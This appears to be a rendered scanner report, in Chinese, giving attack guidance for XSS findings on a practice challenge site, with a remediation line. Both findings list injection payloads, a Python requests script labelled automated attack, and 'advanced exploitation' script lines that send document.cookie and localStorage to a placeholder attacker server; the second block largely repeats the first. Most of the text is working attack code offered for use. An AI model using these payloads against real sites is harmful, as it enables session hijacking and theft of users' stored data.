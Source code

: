 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
